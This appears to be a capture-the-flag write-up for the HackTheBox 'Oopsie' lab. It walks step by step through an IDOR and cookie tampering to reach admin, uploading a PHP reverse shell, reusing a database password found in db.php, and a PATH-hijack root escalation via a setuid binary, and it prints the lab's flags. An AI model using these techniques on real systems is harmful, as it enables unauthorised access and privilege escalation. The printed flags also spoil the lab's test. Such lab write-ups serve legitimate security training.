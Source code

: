 ```yaml
---
layout: default
title: Oopsie
---
```


## TL;DR

We exploit `IDOR` and achieve admin password, then we upload webshell to the server as admin. we find `robert`'s password inside `db.php` and then escalate to root using vulnerability in `/usr/bin/bugtracker`.

### Recon

We start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```
![nmap](image.png)

As you can see, there are two ports, port `22` for *ssh* and port `80` for http server, in this case *apache* server.

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Using gobuster to find hidden endpoints

First we start with `gobuster`, to check for common files and folders, using this command:
```bash
gobuster dir -u http://$target/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

Then, we start to manual crawling, and inspect the sitemap using Burp suite.

![sitemap](image-4.png)

As we can see, it detects the path `/cdn-cgi/login/`, let's check what we can find there.

![login portal](image-1.png)

### IDOR to achieve admin credentials

We can change the `id` in the url `http://10.129.138.30/cdn-cgi/login/admin.php?content=accounts&id=2` and achieving `IDOR`, and by this way getting teh Access ID of the admin, which is `34322`.

![get access id](image-2.png)

When going to uploads, we can see we need to be admin. we can easily change the cookie to get admin access, just change it to `34322`, the access id we achieved earlier.

![uploads denied](image-3.png)

### Upload webshell as an admin

Okay, we want to upload webshell, we can find the file in `/usr/share/webshells/php/php-reverse-shell.php`, which is reverse shell that created by monkey pentesting.
We just need to change the `port` and the `ip`, here is the full webshell:
```php
{% include_relative php-reverse-shell.php %}
```

We need to find however the location of the uploaded shell, luckily the  `gobuster` tells us that there is an `uploads` folder, maybe the uploaded php file will be there.

![gobuster](image-5.png)

So, after uploading the `php-reverse-shell.php` we achieve the desired reverse shell.

![reverse shell](image-6.png)

Now, let just paste the commands to make the shell more nice:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### moving vertical to robert

We can check the `/etc/passwd` file and see there is another user which is called `robert`, we want to be robert:
```
robert:x:1000:1000:robert:/home/robert:/bin/bash
```

We'll check for the location of the website, maybe they have some credentials.
The files will be in `/var/www/html/cdn-cgi/login`, These are the files i found.
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls -la
total 28
drwxr-xr-x 2 root root 4096 Jul 28  2021 .
drwxr-xr-x 3 root root 4096 Jul 28  2021 ..
-rw-r--r-- 1 root root 6361 Apr 15  2021 admin.php
-rw-r--r-- 1 root root   80 Jan 24  2020 db.php
-rw-r--r-- 1 root root 5349 Apr 15  2021 index.php
-rw-r--r-- 1 root root    0 Jan 24  2020 script.js
```

After some sniffing, we find this line inside the `db.php` file
```php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```
We try to connect and check for some useful data in the `mysql` server, using this command, and supplying the password `M3g4C0rpUs3r!`:
```bash
mysql -u robert -p
```
We can't find anything interesting.

![mysql connect](image-7.png)

Okay, let's try another path, maybe robert reuses his passwords, let's try to change to robert using `su robert`, using the password `M3g4C0rpUs3r!`. it worked!

![su robert](image-8.png)

Let's grab the user flag from `user.txt`, using this command:
```bash
cat /home/robert/user.txt
```
and we get this:
```bash
f2c74ee8db7983851ab2a96a44eb7981
```

### Moving to root

We first run the `id` to view what are the privilages of robert:
```bash
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
``` 
Okay, robert is in `bugtracker` group, let's check if there are some executable files of this group:
```bash
robert@oopsie:~$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```

let's check what is exactly this file, what is `/usr/bin/bugtracker`:
```bash
robert@oopsie:~$ ls -l /usr/bin/bugtracker && file /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```
This is an executable file, with the setuid flag on.

We execute `/usr/bin/bugtracker` with ltrace, using this command:
```bash
ltrace /usr/bin/bugtracker
```

![ltrace the /usr/bin/bugtracker](image-9.png)

As we can see, it asks for some string, and then executes:
```c
system("cat $user_input");
```
this is very interesting, we can exploit this to make our own `cat` file, change the `$PATH` variable, and then achieve root shell!
We can do it because it doesn't use `/bin/cat`.

```bash
robert@oopsie:~$ cd /tmp
robert@oopsie:/tmp$ echo "/bin/bash" > cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ /usr/bin/bugtracker
```
![achieve root](image-10.png)

We made it, now we only need to read the flag from `/root/root.txt`. remember we touched the `$PATH` variable, so we can use this command:
```bash
/bin/cat /root/root.txt
```

![root flag](image-11.png)

**User Flag:*****`f2c74ee8db7983851ab2a96a44eb7981`***

**Root Flag:*****`af13b0bee69f8a877c3faf667f7beacf`***
